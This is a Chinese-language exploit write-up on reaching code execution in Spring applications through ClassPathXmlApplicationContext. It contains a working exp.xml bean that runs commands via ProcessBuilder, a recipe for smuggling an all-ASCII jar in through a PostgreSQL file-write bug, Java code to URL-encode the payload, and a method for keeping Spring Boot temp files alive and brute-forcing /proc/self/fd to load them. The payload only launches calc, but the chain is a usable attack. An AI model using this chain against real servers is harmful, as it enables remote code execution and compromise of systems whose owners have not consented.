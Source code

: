 # ClassPathXml

这里的利用关键是，能不能上传xml文件到可控路径。

## PostgreSql写入ascii.jar!/exp.xml

首先，需要明白有这么几个事实

1、jar文件本质就是zip

2、zip文件在文件前后添加脏字符，不影响文件本身

3、xml文件前后不能出现脏字符

4、ClassPathXml读取文件时，文件不能出现非ascii字符。jar:file:///D:/ascii.jar!/1.xml时，ascii.jar中也不能出现非ascii字符

5、postgresql通过漏洞写文件时，前后会出现脏字符



接下来讲漏洞利用。

首先创建exp.xml

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>cmd</value>
                <value>/c</value>
                <value>calc</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

接下来利用https://github.com/c0ny1/ascii-jar 项目的ascii-jar-2.py，制作全都是ascii范围内的jar包。注意PADDING_DATA要放到末尾，因为xml文件开头是固定的。

![img](Sink/image.png)

制作出来的jar包，范围都在00~7F内：

![img](Sink/image-1759327498471.png)

接下来对jar包进行URL编码，这里使用Java脚本，如果用python的话，一定要确定自己编码后的格式正确：

```java
public class UrlEncodeFile {
    public static void main(String[] args) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get("./ascii.jar"));
        String encode = URLEncoder.encode(new String(bytes), "utf-8");
        System.out.println(encode);
    }
}
```

然后通过postgre漏洞写文件：

![img](Sink/image-1759327498632.png)

最后通过ClassPathXml读取：

![img](Sink/image-1759327506920.png)

## springboot临时文件法

### 一个请求

发送一个请求，其中带有临时文件和xml加载路径。

![img](Sink/image-1759327506897.png)

### 异步请求

先发送临时文件请求，主要目标是这个临时文件要长期存活。

可以通过修改Content-Length + 删掉 boundary  + 大段空格 实现。

![img](Sink/image-1759327515374.png)

然后再正常发送另一个利用请求即可

### 爆破fd

通过 file:///proc/self/fd/xxx 去访问产生的临时文件，这里解释一下。

一般获取一个进程的信息时，是通过 /proc/pid 的方式去获取。但是一个进程如果想获取自身的信息，再去填pid就显得多此一举。所以提供了 /proc/self 的方式，允许进程直接访问自身信息。所以，对应不同进程来说，/proc/self 的结果是不一样的。而fd目录是file descriptor，文件描述符，该目录存储了指向当前进程操作过的文件的软连接，以数字0开始命名，通过它可以获取进程中有关的配置文件等。所以可以通过遍历 fd 的方式去加载临时文件。

顺便补充一下 /proc 里面的其他目录。

/proc/pid/cmdline存储了启动该进程的shell命令

cwd是一个软连接，指向进程运行目录

environ文件存储了进程的环境变量

详细请搜索：Linux 进程信息目录 /proc

## 其他能够实现文件上传的

能找到的文件上传点。



